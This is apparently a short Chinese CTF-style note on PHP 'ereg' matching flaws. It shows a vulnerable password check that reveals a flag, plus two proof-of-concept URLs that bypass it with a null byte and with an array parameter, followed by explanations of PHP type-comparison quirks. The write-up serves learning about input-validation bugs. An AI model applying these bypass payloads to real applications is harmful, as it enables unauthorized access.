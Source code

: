 # php match

## ereg

* example

'''php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
    
'''

* poc 1

'''
url: ...?password=1e9%00*-*
'''
此处利用 ereg 漏洞，读到 ** %00 ** 就截止了

* poc 2

'''
url: ...?password[]=s
''' 

**传入数组**
ereg 返回** NULL** ，NULL !== FALSE is true
strpos 处理数组，也返回 ** NULL **
strlen 处理数组，同样返回 **NULL**

**比较**
null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
array 和  任何其他类型（不包括 object）， 比较， array 总是更大